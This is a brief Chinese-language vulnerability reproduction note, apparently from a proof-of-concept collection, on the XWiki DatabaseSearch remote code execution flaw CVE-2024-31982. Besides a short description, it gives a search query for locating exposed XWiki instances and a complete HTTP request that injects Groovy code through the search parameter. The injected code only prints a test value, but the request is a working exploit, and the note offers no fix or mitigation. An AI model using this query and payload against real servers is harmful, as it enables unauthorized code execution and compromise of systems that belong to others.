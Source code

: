 # XWiki DatabaseSearch存在远程命令执行漏洞（CVE-2024-31982）

# 一、漏洞简介
XWiki是一个由Java编写的基于LGPL协议发布的开源wiki和应用平台。它的开发平台特性允许创建协作式Web应用，同时也提供了构建于平台之上的打包应用（第二代wiki）。XWiki DatabaseSearch接口处存在RCE漏洞（CVE-2024-31982），恶意攻击者可能利用此漏洞执行恶意命令，获取服务器敏感信息，最终可能导致服务器失陷。

# 二、影响版本
XWiki

# 三、资产测绘
```plain
body="data-xwiki-reference"
```

![1718991317308-42e2df7f-35ed-465e-84b6-3bb246ce0832.png](./img/bKcs4dowKNy8ybF3/1718991317308-42e2df7f-35ed-465e-84b6-3bb246ce0832-659769.png)

# 四、漏洞复现
```java
GET /xwiki/bin/get/Main/DatabaseSearch?outputSyntax=plain&text=%7D%7D%7D%7B%7Basync+async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22Hello+World!%22++%2B+%2850+%2B+49%29%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

![1718991292434-48a4a954-7965-4a83-ad76-c889f58e7327.png](./img/bKcs4dowKNy8ybF3/1718991292434-48a4a954-7965-4a83-ad76-c889f58e7327-084598.png)



> 更新: 2024-06-23 23:42:48  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ft07tqn8syvqtesk>